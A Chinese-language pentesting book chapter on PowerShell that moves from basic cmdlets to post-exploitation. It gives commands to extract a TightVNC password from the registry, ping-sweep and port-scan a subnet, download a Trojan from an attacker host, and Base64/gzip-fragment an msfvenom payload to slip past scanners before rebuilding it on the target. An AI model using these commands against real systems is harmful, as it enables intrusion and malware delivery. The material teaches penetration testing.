# 第九章：PowerShell 基础

Windows——这是你既爱又恨的操作系统。或者说是恨又爱？无论如何，它在安全专家中存在分歧。让一个完全不懂的人走进一个安全会议，只需要抱怨 Windows，他就能轻松融入其中。无论你立场如何，有一点我们可以肯定，那就是它的强大。从 2006 年 PowerShell 问世开始，评估 Windows 环境的方式发生了剧变。突然，一个单独的 Windows 主机就内置了一个复杂的任务自动化和管理框架。

渗透测试中的后渗透活动所得到的重要教训之一是，我们并不总是在入侵一台机器，窃取其中的数据，然后离开；如今，即使是一个低价值的 Windows 控制点，也会成为一个独立的攻击平台。展示这一点的最戏剧性方式之一是通过利用我们在控制点上的 PowerShell。

本章将涵盖以下主题：

+   探索 PowerShell 命令和脚本语言

+   理解 PowerShell 中的基本后渗透操作

+   介绍 PowerShell Empire 框架

+   探索 PowerShell Empire 中的监听器、预备阶段和代理概念

# 技术要求

本章的操作系统要求如下：

+   Kali Linux

+   Windows 7 或 10

# 给 shell 提供动力 – PowerShell 基础

PowerShell 是一个用于任务自动化和配置管理的命令行和脚本语言框架。我没有指定仅适用于 Windows，因为 PowerShell 已经是跨平台的，至今已有几年了；然而，它仍然是微软的产品。如今，它已经内置于 Windows 中，尽管对攻击者具有强大的潜力，但它并不会被完全封锁。对于今天的 Windows 渗透测试人员来说，它是他们武器库中一项全面且强大的工具，恰好也安装在所有受害者的电脑上。

## 什么是 PowerShell？

当你第一次接触 PowerShell 时，它可能让人感觉有些压倒性，但归根结底，它只是一个花哨的界面。PowerShell 通过提供者与外部功能进行交互，允许你访问那些在命令行中无法轻易利用的功能。从某种程度上来说，它们就像硬件驱动程序——代码，它们为软件和硬件之间的通信提供了途径。提供者使我们能够通过命令行与 Windows 的功能和组件进行通信。

当我将 PowerShell 描述为任务自动化和配置管理框架时，这更符合微软对 PowerShell 的定义。作为黑客，我们关注的是这些工具能做什么，而不一定是它们的创造者如何定义它们；从这个角度来看，PowerShell 就是经过增强的 Windows 命令行。它可以做任何你在标准 Windows 命令行中做的事情。例如，启动 PowerShell 并尝试使用传统的 `ipconfig` 命令，如下图所示：



图 9.1 – PowerShell 能做 CMD 能做的一切

这完全没有问题。现在我们知道 PowerShell 允许我们继续执行的操作，让我们看看它的独特之处。

首先，标准的 Windows CMD 完全是微软的创作。虽然命令行外壳的概念并非 Windows 独有，但它的实现方式是独特的，因为 Windows 一直以来都以自己的方式做事。另一方面，PowerShell 吸取了其他外壳和语言中的一些最佳思想，并将它们结合在一起。你是否曾在 Linux 中花了很多时间，然后不小心在 Windows 命令行中输入了`ls`而不是`dir`？那 PowerShell 会发生什么呢？让我们看看：



图 9.2 – 比较 dir 和 ls

没错——`ls`命令在 PowerShell 中也能使用，同时也有老式的`dir`和 PowerShell 的`Get-ChildItem`。让我们更深入地了解 PowerShell 原生的做法：cmdlet。

## PowerShell 的 cmdlet 和 PowerShell 脚本语言

当我们谈论`ls`和`dir`时，我已经引起了你的注意，但你可能会对`Get-ChildItem`感到疑惑。它听起来像是我会在购物清单上写的一项提醒自己给孩子们买恐龙玩具的事项（他们现在真的很喜欢恐龙）。它是 PowerShell 的一种特殊命令方式，叫做**命令小工具**（**cmdlets**）。cmdlet 实际上只是一个命令，至少从概念上来说；在背后，它们是实现特定功能的.NET 类。它们是 PowerShell 中原生的命令实体，使用一种独特的自解释语法风格：*动词-名词*。在我们继续之前，让我们先熟悉一下最重要的 cmdlet——`Get-Help`：



图 9.3 – Get-Help cmdlet 始终伴随左右

只需输入`Get-Help [*`cmdlet 名称`*]`，你就能找到关于该 cmdlet 的详细信息，包括示例用法。最棒的是？它支持通配符。尝试使用`Get-Help Get*`并注意以下几点：



图 9.4 – 使用通配符与 cmdlet

`Get-Help`功能非常强大，我们现在只是触及了皮毛。现在我们知道如何在过程中获取帮助，让我们尝试一些关于 Windows 注册表的基本操作。

## 使用 Windows 注册表

让我们使用`Get` cmdlet 从注册表中获取一些数据，然后将其转换为不同的格式供我们使用。巧合的是，我攻击的这台机器正在运行 TightVNC 服务器，它在注册表中存储了控制密码的加密副本。这种加密方式众所周知可以轻松破解，因此我们将仅使用 PowerShell 以十六进制格式获取密码，如下所示：

> $FormatEnumerationLimit = -1
> 
> Get-ItemProperty -Path registry::hklm\software\TightVNC\Server -Name ControlPassword
> 
> $password = 139, 16, 57, 246, 188, 35, 53, 209
> 
> ForEach ($hex in $password) {

>> [Convert]::ToString($hex, 16) }

让我们看看我们在这里做了什么。首先，我将`$FormatEnumerationLimit`全局变量设置为`-1`。作为实验，尝试在没有设置此变量的情况下提取密码——会发生什么？密码在 3 个字节后被截断。你可以设置`$FormatEnumerationLimit`来定义显示多少字节，默认情况下是节省空间。将其设置为`-1`实际上是说*无限制*。

接下来，我们必须执行`Get-ItemProperty` cmdlet 从注册表中提取值。请注意，我们可以使用`hklm`作为`HKEY_LOCAL_MACHINE`的别名。如果没有`-Name`参数，它将显示`Server`键中的所有值。PowerShell 将显示我们请求的项的属性：



图 9.5 – 将十进制数组转换为十六进制

到目前为止，我们的工作从技术上讲已经完成——我们需要的是`ControlPassword`值，现在我们已经得到了它。只是有一个问题：这些字节是以十进制（decimal）表示的。这对人类友好，但对二进制不友好，所以让我们用 PowerShell 将密码转换一下。（嘿，我们已经在这里了。）首先，设置一个`$password`变量，并用逗号分隔原始的十进制值。这告诉 PowerShell 你正在声明一个数组。为了好玩，尝试将数字放入引号中——会发生什么？此时，变量将变成一个包含你的数字和逗号的字符串，而`ForEach`只会看到一个项。说到`ForEach`，这个 cmdlet 就是我们的最后一步——它定义了一个`for-each`循环（我早就告诉你这些 cmdlet 的名称很容易理解），用于对数组中的每一项进行操作。在这个例子中，操作就是将每个值转换为十六进制。

这只是一个小例子。PowerShell 可以用来操作 Windows 操作系统中的任何东西，包括文件和服务。记住，PowerShell 能做任何 GUI 能够做的事。

## PowerShell 中的管道和循环

如我之前所提到的，PowerShell 继承了最强大的 shell 的基因。你可以直接使用你已经熟悉的技巧。将命令输出管道到`for`循环？那对孩子们来说是小菜一碟。

以我们之前的例子为例：我们得到了一个十进制值的数组，我们需要将每个值转换为十六进制。即使是初学者程序员也应该能明显看出这是一个理想的 `for` 循环场景（例如 PowerShell 中的 **ForEach**）。PowerShell 中管道的妙处在于，你可以将一个 cmdlet 输出的对象管道到另一个 cmdlet，包括 `ForEach`。换句话说，你可以执行一个输出列表的 cmdlet，然后将该列表管道到 `for` 循环中。通过 `ForEach` cmdlet 的单字符别名 `%`，生活变得更简单了。来看个例子，这两行代码做的是相同的事情：

> ls *.txt | ForEach-Object {cat $_}
> 
> ls *.txt | % {cat $_}

如果在包含多个文本文件的路径中执行，`ls *.txt` 命令将产生一个结果列表，这些结果将作为 `ForEach-Object` 的输入，每个项目都表示为 `$_`。

从技术上讲，`for` 循环和 `for-each` 循环之间是有区别的，后者是一种特殊的 `for` 循环。标准的 `for` 循环基本上会执行定义次数的代码，而 `for each` 循环则会对数组或列表中的每个项目执行代码。

我们可以用两个句点 (**..**) 定义一个数字范围。例如，`5..9` 告诉 PowerShell，`5, 6, 7, 8, 9`。通过这个简单的语法，我们可以将数字范围管道到 `for` 循环中，这对于做一个固定次数的任务非常方便，甚至可以将这些数字用作命令的参数。（我觉得我听到你内心的黑客在说——*我们可以做一个 PowerShell 端口扫描器，是不是？* 来吧，别剧透了。继续往下读。）因此，通过将数字范围管道到 `ForEach`，我们可以将每个数字作为 `$_` 来处理。如果我们运行这个命令，你觉得会发生什么？让我们看看：

> 1..20 | % {echo "你好，世界！这是第 $_ 个！"}

自然地，我们可以构建管道 —— 一系列的 cmdlet 将输出传递到下游。例如，看看下面这个命令：

> Get-Service Dhcp | Stop-Service -PassThru -Force | Set-Service -StartupType Disabled

请注意，通过在管道中的第一个 cmdlet 中定义 `Dhcp` 服务，`Stop-Service` 和 `Set-Service` 已经知道我们正在处理的内容。

我听到你从后面喊：“*那对于更严肃的开发来说，有没有交互式脚本环境？*” 不用担心，我来告诉你。

## 更棒的是 —— PowerShell 的 ISE

PowerShell 最酷的功能之一是内置的 **交互式脚本环境**(**ISE**)，它包含了一个交互式外壳，你可以像在正常的 shell 会话中一样运行命令，同时还有一个具有语法意识和调试功能的编码窗口。

你可以像在任何其他编程环境中一样，编写、测试并发送脚本：



图 9.6 – Windows PowerShell ISE

你编写的任何 PowerShell 脚本文件的扩展名都是 `ps1`。不幸的是，并不是所有的 PowerShell 安装都相同，不同版本的 PowerShell 之间存在一些差异；当你希望在某个主机上运行你编写的 `ps1` 文件时，请记住这一点。

这是对 PowerShell 基础知识的愉快介绍，但现在，我们需要开始理解 PowerShell 如何成为你黑客工具包中最喜爱的工具之一。

# PowerShell 后期利用

PowerShell 是一个完整的 Windows 管理框架，并且它是内置在操作系统中的，无法完全被阻止。当我们谈论 Windows 环境中的后期利用时，考虑到 PowerShell 是必不可少的—它不是一个锦上添花的工具，而是一个必须具备的工具。我们将在本书的最后两章中更详细地探讨后期阶段，但现在，让我们先介绍一下 PowerShell 在将我们的攻击推进到下一个阶段，并一步步接近完全控制中的作用。

## 从 Pivot 点进行 ICMP 枚举与 PowerShell

所以，你已经在 Windows 7 或 10 的系统上获取了一个立足点。抛开上传工具的可能性，我们能否利用一个普通的 Windows 7 或 10 系统，寻找潜在的下一个突破点？通过 PowerShell，几乎没有什么我们做不到的事情。

正如我们之前提到的，我们可以将一系列数字传递给 `ForEach`。比如，如果我们在一个子网掩码为 `255.255.255.0` 的网络中，我们的范围可以是从 1 到 255，然后将这些数字传递给 `ping` 命令。让我们来看一下实际操作：

> 1..255 | % {echo "192.168.63.$_"; ping -n 1 -w 100 192.168.63.$_ | Select-String ttl}

如你所见，这将查找带有 `ttl` 字符串的结果，从而响应 ping 请求：



图 9.7 – 快速 ping 扫描器

让我们沿着管道继续往下走。首先，我们定义一个数字范围：一个从 1 到 255 的闭区间数组。这个数组作为输入传递给 `ForEach` 别名 `%`，然后我们运行一个 `echo` 命令和一个 `ping` 命令，使用循环中的当前值作为 IP 地址的最后一个十进制八位数。正如你已经知道的，`ping` 返回状态信息；这个输出被进一步传递给 `Select-String`，用于提取 `ttl` 字符串，因为这是知道我们是否有命中响应的一种方式（只有主机响应了 ping 请求，我们才能看到 TTL 值）。瞧—这是一个 PowerShell ping 扫描器。虽然它很慢且粗糙，但我们只能使用手头的工具。

你可能会想，如果我们可以启动 PowerShell，为什么我们就不能拥有 Meterpreter 会话或者上传工具集？也许可以，但也可能不行—或许我们是通过破解一个弱密码获得 VNC 访问权限的，但这并不等于系统被完全控制或者出现在域中。另一个可能性是内部威胁—可能某人忘记锁定工作站，我们偷偷走过去坐下，能做的其中一件事就是执行一个 PowerShell 一行代码。渗透测试员必须始终保持灵活性，并保持开放的思维。

你可以想象，在完成 ping 扫描后，下一步就是寻找开放端口，直接在 PowerShell 会话中进行。

## PowerShell 作为 TCP 连接端口扫描器

现在我们已经有了目标主机，我们可以使用以下一行命令进一步了解它，这个命令旨在尝试连接所有指定的端口：

> 1..1024 | % {echo ((New-Object Net.Sockets.TcpClient).Connect("192.168.63.147", $_)) "开放端口 - $_"} 2>$null

让我们看看在快速扫描少数几个主机后会是什么样子：



图 9.8 – PowerShell 端口扫描

如你所见，这只是将我们所学的基础知识提升到下一个层次。`1..1024` 定义了我们的端口范围，并将数组传递到 `%`；每次迭代时，都会启动一个 TCP 客户端模块，尝试连接该端口。`2>$null` 会将 `STDERR` 丢弃；换句话说，返回的错误意味着端口没有开放，响应会被丢弃。

我们从 TCP 和使用 Nmap 等工具的经验中知道，端口扫描策略有很多种；例如，半开扫描，其中 SYN 数据包被发送以引发开放端口的 `SYN-ACK` 响应，但没有通过 `ACK** `值** 完成握手。那么，在我们的快速且简易的端口扫描脚本背后到底发生了什么呢？它是一个 `Connect` 模块，用于 `TcpClient` – 该模块旨在创建 TCP 连接。它并不知道自己被用来做端口扫描。它正在尝试建立完整的三次握手，并且如果握手完成，它会成功返回。我们必须理解网络上发生了什么。

既然我们在与网络通信，那就让我们看看在需要将恶意程序传送到目标时，能做些什么。

## 通过 PowerShell 向目标传送 Trojan

你有 PowerShell 访问权限。你有一个 Trojan 文件放在 Kali 主机上，需要将其传送给目标。在这里，你可以将文件托管在 Kali 主机上，并使用 PowerShell 来避免恼人的浏览器警告和内存占用。

首先，我们使用 `python -m SimpleHTTPServer 80` 来托管文件，该命令在包含 Trojan 的文件夹中执行。当准备好后，我们可以执行一个 PowerShell 命令，利用 `WebClient` 下载文件并将其写入本地路径：

> (New-Object System.Net.WebClient).DownloadFile("http://192.168.63.143/attack1.exe", "c:\windows\temp\attack1.exe")

让我们看看在执行命令并运行 `ls` 验证时会是什么样子：



图 9.9 – 从 HTTP 服务器下载 EXE 文件

需要注意的是目标路径不是任意的；它必须存在。这个一行命令不会为你创建一个目录，所以如果你试图将其放在任何地方而没有确认主机上是否存在，可能会引发异常。假设这不是问题，并且命令已经执行完毕，我们可以`cd`进入选择的目录，看到我们的可执行文件已经准备就绪。

不过我知道你在想什么 - *像这样从网络中提取 EXE 文件并不是特别隐秘*。你说得对。任何值得一试的终端保护产品都会立即抓住这种尝试。我们需要考虑如何通过将文件转换为比普通可执行代码更不可疑的东西来偷运文件。如果我们将恶意二进制文件转换为 Base64 呢？然后，我们可以将其写入一个纯文本文件，PowerShell 可以像处理普通字符串一样处理它。让我们仔细看看。

# 在 PowerShell 中对二进制进行编码和解码

首先，我们将切换回我们的 Kali 系统，并使用`msfvenom`创建一个快速可执行的漏洞。然后，我们将通过使用`SimpleHTTPServer`将其发送到我们的 Windows 系统：



图 9.10 – 构建和提供恶意可执行文件

对于这个示例，我将这个文件称为`sneaky.exe`。现在，让我们施展魔法，从 EXE 文件中读取原始字节，压缩结果，然后将其转换为 Base64。让我们开始吧：

$rawData = [System.IO.File]::ReadAllBytes("C:\Users\bramw\Downloads\sneaky.exe")

$memStream = New-Object IO.MemoryStream

$compressStream = New-Object System.IO.Compression.GZipStream ($memStream, [IO.Compression.CompressionMode]::Compress)

$compressStream.Write($rawData, 0, $rawData.Length)

$compressStream.Close()

$compressedRaw = $memStream.ToArray()

$b64Compress = [Convert]::ToBase64String($compressedRaw)

$b64Compress | Out-File b64Compress.txt

让我们逐步分析刚刚发生的事情。请注意，我们正在使用 PowerShell 与.NET 进行交互 - 在一瞬间获得巨大的力量：

1.  在`System.IO`命名空间下，`File`类包含`ReadAllBytes`方法。这只是打开一个二进制文件并将结果读入一个字节数组，我们称之为`$rawData`。

1.  接下来，我们创建一个名为`$memStream`的`MemoryStream`对象，在这里我们将使用`GZipStream`类打包原始字节。换句话说，我们将使用 gzip 文件格式规范压缩`$rawData`的内容。

1.  然后，我们创建另一个原始字节数组`$compressedRaw`，但这次数据是我们原始字节数组使用 gzip 压缩后的结果。

1.  最后，我们将压缩的字节数组转换为 Base64 字符串。此时，我们可以像对待其他字符串一样处理`$b64Compress`；在我们的示例中，我们将其写入了一个文本文件。

现在，你可以像打开任何其他纯文本文件一样打开这个文本文件。为什么不用蜡笔在餐巾纸上写下它，然后给你的朋友呢？



图 9.11 – 我们二进制文件的纯文本 Base64 表示

可能性受你的想象力限制，但在我们的例子中，我提供了纯文本供我的 PowerShell 脚本在目标环境中获取。让我们不要低估防御者：尽管这是普通文本，但显然是 Base64 且未加密，因此快速扫描就会揭示其目的。当我试图将其通过电子邮件发送给自己时，Gmail 已经发现了我们，如下面的截图所示：



图 9.12 – Google 发现了！

不用担心，因为这个聪明的扫描考虑了所有的二进制数据。剪掉几个字母，它就会变得混乱。再次强调，可能性仅受你的想象力限制，但想法是你创建一个由 Base64 代码片段组成的*拼图*，然后在接收端简单地连接起来。在我们的例子中，让我们从文本文件中剪掉前五个字符，然后将剩余字符发送到网络上。让我们来看一下：

Invoke-WebRequest -Uri "http://192.168.108.211:8000/sneaky.txt" -OutFile "fragment.txt"

$fragment = Get-Content -Path "fragment.txt"

$final = "H4sIA" + $fragment

$compressedFromb64 = [Convert]::FromBase64String($final)

$memoryStream = New-Object io.MemoryStream( , $compressedFromb64)

$compressStream = New-Object System.io.Compression.GZipStream($memoryStream, [io.Compression.CompressionMode]::Decompress)

$finalStream = New-Object io.MemoryStream

$compressStream.CopyTo($finalStream)

$DesktopPath = [Environment]::GetFolderPath("Desktop")

$TargetPath = $DesktopPath + "\NotNaughty.exe"

[IO.File]::WriteAllBytes($TargetPath, $finalStream.ToArray())

我们可以用更少的行数完成所有这些操作，但我将它们列出来，以便我们可以看到攻击的每个阶段。一旦我们的脚本提取了片段，我们只需连接缺失的部分并将其保存为`$final`。因此，`$final`现在包含以 EXE 格式的 Base64 编码、gzip 压缩的二进制代码。我们可以使用之前讨论过的相同方法反向操作，然后使用`WriteAllBytes`方法在我们这一端重新创建 EXE。将这个技巧与本书中之前讨论的恶意软件规避技术相结合，你就拥有了一个强大的渠道，可以将你的工具偷偷带入目标环境。

正如 Metasploit 中的一切都可以手动完成一样，幸运的是，我们在工具包中有一个框架，可以简化开发强大的 PowerShell 攻击的手动任务。让我们来看看 Empire 框架。

# Offensive PowerShell – 介绍 Empire 框架

我们能够坐在 Windows 机器前，通过 PowerShell 与操作系统如此紧密地互动，毫无疑问是 Windows 管理员的梦想成真。作为攻击者，我们看到的是精确制导导弹的各个部件，我们只需要时间去构建它。在渗透测试中，我们通常没有时间即时编写完美的 PowerShell 脚本，因此大多数渗透测试员都有一个装满自制脚本的“糖果袋”，用于执行某些任务。我使用的一个脚本，客户端一个接一个地运行，做的仅仅是扫描开放端口，并将 IP 地址转储到按开放端口命名的文件夹中的文本文件里。像这样的事情看起来平淡无奇，甚至有些无意义——直到你身处现场，意识到你已经节省了数十个小时。

高级安全专家会以这种方式看待像 Metasploit 这样的工具——它是一个框架，用于有组织、高效和整洁地传递工具，当内置的工具集无法满足需求时。在 PowerShell 的世界中，有一个框架自动化了引导和管理与目标的通信通道，以进行复杂的 PowerShell 攻击。欢迎来到 Empire。

## 安装并引入 PowerShell Empire

让我们通过动手实践来介绍 PowerShell Empire。安装非常简单，但首先我们需要更新 `apt`：



图 9.13 – 在 Kali 上安装 PowerShell Empire

安装完成后，你可以通过以下命令启动团队服务器：

powershell-empire 服务器

没错——使用 PowerShell Empire 轻松进行红队攻击。注意 RESTful API 也托管在 `1337` 端口上——可以用你最喜欢的编程语言进行大量自动化，使你能够在有限的时间内从一台 PC 上完成多名攻击者的工作。

现在，让我们在一个新窗口中启动 Empire 客户端：

powershell-empire 客户端

你注意到这个客户端界面有什么特别之处吗？

